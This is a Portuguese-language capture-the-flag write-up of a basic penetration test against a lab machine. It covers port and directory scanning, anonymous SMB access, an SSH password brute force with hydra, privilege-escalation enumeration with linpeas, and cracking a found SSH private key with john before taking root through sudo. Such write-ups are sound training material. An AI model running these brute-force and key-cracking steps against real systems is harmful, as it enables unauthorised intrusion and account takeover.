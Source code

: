 # Basic Pentest

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.179.32
```
![image](https://github.com/lufffe/Writeups/assets/90646635/6f3c236f-adcc-4efa-bdfe-1ba09e09d9c9)

![image](https://github.com/lufffe/Writeups/assets/90646635/8eaf713c-d847-41b8-a492-cb97e4af6779)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80,139,445,8009,8080 10.10.179.32
```
![image](https://github.com/lufffe/Writeups/assets/90646635/fe539f41-7a1c-4b51-82ef-0278c9ab0401)

* ###  Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.179.32 -w ~/directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/572df05a-e1fb-4f4f-b0ea-b3a9a3f3a77b)

* ### Olhando no http
![image](https://github.com/lufffe/Writeups/assets/90646635/7c680101-b962-4f3a-bfdd-0b9060de89c4)


* ### Como tem o samba rodando dar uma olhada no que tem lá.
```bash
smbclient -L //10.10.179.32/
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cef336ef-c0db-4943-a4de-3c7682f400bf)

* ### Encontrando e baixando arquivo encontrado no samba.
```bash
smbclient //10.10.179.32/anonymous
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c5933818-ff7f-44a5-8101-4a63a087e6f3)

```bash
cat staff.txt 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/aff33771-6353-4c18-ad69-f418bdef2c7a)

* ### Brute Force com o hydra para descobrir a senha do usuário no serviço do SSH.
```bash
hydra -l jan -P ~/rockyou.txt 10.10.179.32 ssh -t 64
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ef38f23b-63ad-4cd8-9638-aa88fb7f1c04)


* ### Subindo um servidor em python para transferir o linpeas para a maquina e listar possibilidades de escalar previlégios.
![image](https://github.com/lufffe/Writeups/assets/90646635/d6f76d30-1f95-4a32-95fa-5137df98661c)

![image](https://github.com/lufffe/Writeups/assets/90646635/38a42775-f447-4ffe-91a8-fe6bcc0016e6)

* ### Encontrado uma chave ssh do outro usuário.
![image](https://github.com/lufffe/Writeups/assets/90646635/0fa96df8-d4cd-4d33-9863-1d95f0737323)

* ### Encontrando a senha da chave que estava privada.
```bash
ssh2john id_rsa > hash
```
```bash
john --wordlist=~/rockyou.txt hash
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e5aa2cc0-2b85-4b96-beab-78a11a46a35b)

jan@basic2:~$ ssh -i /home/kay/.ssh/id_rsa kay@10.10.179.32

* ### E com o acesso ao novo usuário se encontra a ultima senha necessária do desafio, e a execusão do sudo é livre então pegar o root é simples.
![image](https://github.com/lufffe/Writeups/assets/90646635/16d00e9b-9584-4360-adf1-27a1927f1e5f)
